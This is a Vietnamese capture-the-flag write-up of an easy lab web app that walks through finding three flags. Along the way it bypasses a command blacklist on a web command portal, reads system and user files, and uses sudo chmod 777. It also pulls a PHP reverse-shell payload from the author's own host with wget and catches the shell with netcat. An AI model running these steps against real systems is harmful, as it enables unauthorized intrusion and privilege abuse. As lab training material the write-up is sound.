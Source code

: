 ﻿### Yêu cầu
- Cho trước:
    * Host: 10.10.55.49 (có thể khác)
    * Web app: https://10-10-55-49.p.thmlabs.com/
- Tìm đủ 3 flags.
### Let's go
- Mở vào trang web, đầu tiên mình thấy không có gì khả nghi. Mình xem page source thì thấy 1 đoạn comment chứa tên tài khoản: `R1ckRul3s`. Phán đoán ban đầu, mình cho rằng có thể là tài khoản đăng nhập vào trang quản trị, hoặc ssh.
- Dùng nmap quét host, chỉ có 2 cổng tcp mở: 80 http, 22 ssh, cùng một số cổng udp nào đó (mình cũng không rõ về các services chạy udp đó).
- Điều đầu tiên mình nghĩ đến là Brute force password vào ssh với username `R1ckRul3s`. Nhưng sau khi Brute force không được, mình mới thử ssh vào host với username `R1ckRul3s` và nhận được thông báo Permission Denied (public key). Mình đoán username R1ckRul3s không đúng.
- Kiểm tra version của service ssh bằng `nmap -sV`, mình thấy ssh có version OpenSSH 7.6p1 (version này có lỗ hổng có thể khai thác username enumeration). Mình khai thác username enumeration thông qua Metasploit với hy vọng tìm kiếm được username. Tuy nhiên, kết quả là không nhận được gì cả.
- Tạm bỏ qua ssh, mình quay trở lại với webapp.
- Dùng gobuster để enum webapp. Kết quả trả ra một vài thứ khá hay ho:
  * /assets 
  * /robots.txt 
  * /login.php 
  * /portal.php 
- Truy cập vào https://10-10-55-49.p.thmlabs.com/robots.txt , mình thấy có đúng 1 dòng `Wubbalubbadubdub`. Mình đoán nó là mật khẩu của tài khoản `R1ckRul3s` tìm thấy trước đó.
- Truy cập vào https://10-10-55-49.p.thmlabs.com/login.php , hiển thị 1 form đăng nhập. Nhập vào username `R1ckRul3s` và password `Wubbalubbadubdub`, authenticate thành công và được redirect đến portal.php.
- Tại đây xuất hiện 1 ô input để thực thi command trên server host. Như thói quen, mình thử `ls -la`. Kết quả trả về các file đã enum được trước đó, thêm vào đó là 2 file mình thấy khả nghi: Sup3rS3cretPickl3Ingred.txt , clue.txt. 
- Mình thử dùng `cat`, `more` để xem 2 file nhưng bị block -> có 1 vài lệnh trong blacklist. Mình dùng `less` để xem thì lại được. Hoặc có thể truy cập trực tiếp từ browser URL. Ok nội dung trong file Sup3rS3cretPickl3Ingred.txt chính là flag đầu tiên cần tìm. Nội dung trong file clue.txt là `Look around the file system for the other ingredient.` - ý nói cần tìm thêm các chỗ khác để lấy 2 flag còn lại.
- Dùng `pwd`, trả về /var/www/html, đây là thư mục chứa content web app.
- Dùng `whoami`, trả về www-data.
- Dùng `ls -la /home` để xem có thể có những thư mục người dùng nào, kết quả trả về có ubuntu và rick. Xem qua thư mục ubuntu không có gì, còn thư mục rick có file second ingrendients. Đây có vẻ là flag thứ 2.
- Vì tên file chứ space nên không thể mở như bình thường được. Mình dùng `less /home/rick/second\ ingredients` và xem được nội dung file. Đây chính xác là flag thứ 2.
- Lúc này việc tìm flag thứ 3 khiến mình gặp khá nhiều thời gian vì không tìm được manh mối nào có ích.
- View page-source portal.php, có 1 dòng comment nội dung là 1 đoạn mã base64, mình decode đoạn mã đó lại ra 1 đoạn mã base64 khác. Mình cứ vậy mà decode khoảng 9-10 lần thì thấy kết quả cuối là`rabbit hole`.
- Mình đã xem file config ssh bằng `less /etc/ssh/sshd_config` và thấy dòng `PasswordAuthentication no` -> không thể đăng nhập ssh bằng mật khẩu.
- Mình thử brute force trang login.php với các từ khóa liên quan đến rabbit hole, rick, root, ubuntu,... nhưng cũng không thành công.
- Sau đó mình dùng `less login.php` mới thấy chỉ authen tài khoản `R1ckRul3s` và mật khẩu `Wubbalubbadubdub`. 
- Về mãi sau, khi tìm đủ 3 flag, mình search `rabbit hole in linux`, mới hiểu có vẻ như đó là 1 hint để xem nội dung file bằng các câu lệnh khác (nhưng trên thực tế mình cũng không dùng đến rabbit hole). Hoặc đó là 1 cú lừa ~~.
- Mình thử dùng netcat để tạo reverse shell và cả php-reverse-shell-payload nhưng đều không thành công. Sau đó, mình mở http server ở local và dùng `wget <LHOST> <LPORT> php-reverse-shell.php` để upload payload lên host. Ở local báo file đã được get thành công nhưng check trên server mình lại không thấy. Có thể không được phép chỉnh sửa hay tạo file trong folder này.
- Mình thử touch 1 file bất kỳ nhưng không được.
- Dùng `sudo chmod 777 /var/www/html` và upload payload lại thì lại được.
- Dùng thêm `sudo chmod 777 php-reverse-shell.php` cho chắc.
- Chạy netcat  dưới local để lắng nghe và chạy payload trên server, ta có được reverse shell.
- Mình xem qua 1 vòng hệ thống, thử vào /root thì ú òa, có file `3rd.txt`, đọc nội dung file và có ngay flag thứ 3.
- Trên thực tế thì chỉ cần đơn giản chạy `sudo ls -la /root` và `less /root/3rd.txt` ở trên ô input trang portal.php là có thể lấy được flag thứ 3. Nhưng do mình luôn muốn có được reverse shell trên server nên mới tìm cách để upload payload lên.
- Đây là 1 CTF ở mức độ Easy nhưng mình cũng đã mất khá nhiều thời gian để tìm đủ 3 flag, nhất là flag 3. Một vài điều thú vị mình đã thực hiện mặc dù không cần thiết: chmod /var/www/html để upload được payload lên, lấy được reverse shell. Ở các bước đầu tiên, nếu bạn làm theo hướng upload payload và lấy reverse shell thì cũng không cần quan tâm đến blacklist gì cả.
- Có 1 điều thú vị là mình đã suy nghĩ rất nhiều về `rabbit hole`, rằng không biết `rabbit hole` để làm gì, hay gợi ý điều gì, hay chỉ đơn giản là đánh lạc hướng. Cuối cùng mình nghĩ đó là 1 hint nói rằng hãy bypass blacklist =)).
- Ok đến đây thôi. Happy hacking!
